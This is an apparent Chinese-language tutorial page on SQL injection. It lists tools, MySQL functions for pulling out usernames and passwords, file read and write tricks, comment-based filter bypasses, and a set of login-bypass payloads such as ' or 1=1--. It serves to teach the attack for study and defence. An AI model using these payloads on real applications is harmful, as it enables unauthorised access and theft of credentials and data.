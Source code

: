 # SQL 注入

## 基本概念

* SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
* 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
* 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

## 常用工具

* Burp Suite：[Burp Suite 使用介绍](http://static.hx99.net/static/drops/tools-1548.html)
* Tamper Data \(Firefox addon\)
* HackBar \(Firefox addon\)
* sqlmap：[sqlmap 用户手册](http://static.hx99.net/static/drops/tips-143.html)

## MySQL 注入简介

### 注入常见参数

* `user()`：当前数据库用户；
* `database()`：当前数据库名；
* `version()`：当前使用的数据库版本；
* `@@datadir`：数据库存储数据路径；
* `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`；
* `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来；
* `concat_ws()`：用法类似；
* `hex()` 和 `unhex()`：用于 hex 编码解码；
* `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`；
* `select xxoo into outfile '路径'`：权限较高时可直接写文件。


### 语法参考与小技巧

#### 行间注释

* `--`

  ```sql
  DROP sampletable;--
  ```

* `#`

  ```sql
  DROP sampletable;#
  ```

#### 行内注释

- `/*注释内容*/`

  ```sql
  DROP/*comment*/sampletable`
  DR/**/OP/*绕过过滤*/sampletable`
  SELECT/*替换空格*/password/**/FROM/**/Members
  ```

- `/*! MYSQL专属 */` 

  ```sql
  SELECT /*!32302 1/0, */ 1 FROM tablename
  ```


#### 字符串编码

* `ASCII()`：返回字符的 ASCII 码值；
* `CHAR()`：把整数转换为对应的字符。

## 后台万能密码

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

